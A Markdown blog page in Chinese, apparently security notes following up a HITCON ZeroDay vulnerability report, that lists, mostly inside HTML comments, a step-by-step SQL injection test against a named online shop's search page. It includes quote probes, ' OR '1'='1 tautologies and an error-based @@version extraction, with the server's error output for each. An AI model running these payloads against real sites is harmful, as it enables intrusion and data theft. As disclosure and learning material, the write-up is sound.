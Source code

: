 ```yaml
---
title: SQL Injection wowcard Success
description: SQL Injection wowcard Success
last_update:
  date: "2025-08-21T08:00:00+08:00"
---
```


本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-01031 的延伸

## 學到的東西

同 [上一篇](./sql-injection-wowisee-success.md#學到的東西)

<!-- ## 前言

- 目標: `https://shop.wowcard.com.tw/wsearch.asp`
- 使用 POST + FormData，不需要煩惱 URL Encode + Decode 的問題 -->

<!-- ## 測試過程

1. `'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

遺漏字元字串 ') Order By 上刊日期 desc' 後面的引號。

/Scripts/DataList_WOWdetail.js, 行318
```

2. `123'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

3. `%123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

4. `123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

5. `123'))--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

6. `123')--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Html_Inc/Search_main_kind.asp, 行18
```

7. `123')'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '--123%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

8. `' OR '1' = '1`

成功搜尋到

9. `' AND '1' = '1`

成功搜尋到 0 筆資料，推測應該是我們還在某個 `'` 或是 `)` 裡面，所以註解沒有生效

10. `' AND 1 = CONVERT(int,@@version) OR '1' = '1`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e07'

將 nvarchar 值 'Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3 2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) ' 轉換成資料類型 int 時，轉換失敗。

/Scripts/DataList_WOWdetail.js, 行318
```

成功提取到 DB 版本號

```
Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3 2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1)
```

11. 接下來請參考 [ZD-2025-01031](https://zeroday.hitcon.org/vulnerability/ZD-2025-01031) -->
